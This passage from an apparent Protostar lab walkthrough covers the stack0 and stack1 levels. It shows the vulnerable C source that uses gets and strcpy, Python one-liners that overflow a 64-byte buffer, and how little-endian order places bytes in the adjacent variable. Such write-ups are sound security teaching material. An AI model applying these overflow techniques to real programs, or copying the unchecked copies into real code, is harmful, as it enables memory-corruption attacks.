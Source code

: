 Given that `0x5c - 0x1c` is 64 bytes, we see that `buffer` and `modified`
are allocated right next to each other on the stack.

We can modify the `modified` variable by writing past the space allocated for
`buffer`. We can do that by passing in a large input via stdin since the `gets`
function does not perform any bounds checking.

```shell
user@protostar:~$ python -c "print 'A' * 65" | /opt/protostar/bin/stack0
you have changed the 'modified' variable
```

# stack 1

We are given the below source code.

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  if(argc == 1) {
      errx(1, "please specify an argument\n");
  }

  modified = 0;
  strcpy(buffer, argv[1]);

  if(modified == 0x61626364) {
      printf("you have correctly got the variable to the right value\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }
}
```

This is pretty similar to the previous level except that the data is passed in
via `argv` instead of stdin and we need to write a specific value `0x61626364`
to `modified` instead of any non zero value.

```shell
user@protostar:~$ python -c "print 'A' * 65" | xargs /opt/protostar/bin/stack1
Try again, you got 0x00000041
```

We see that the ASCII value of the character "A" is written to the memory
location reserved for `modified`. We notice that the value is written to the
least significant byte of `modified`. This is because x86 is a
[little-endian][wikipedia-endianness] based system.


[exploit-exercises]: https://exploit-exercises.com
[nebula-writeup]: 2018-01-01-nebula-walkthrough
[wikipedia-endianness]: https://en.wikipedia.org/wiki/Endianness
[wikipedia-shellcode]: https://en.wikipedia.org/wiki/Shellcode
[exploit-db-13357]: https://www.exploit-db.com/exploits/13357/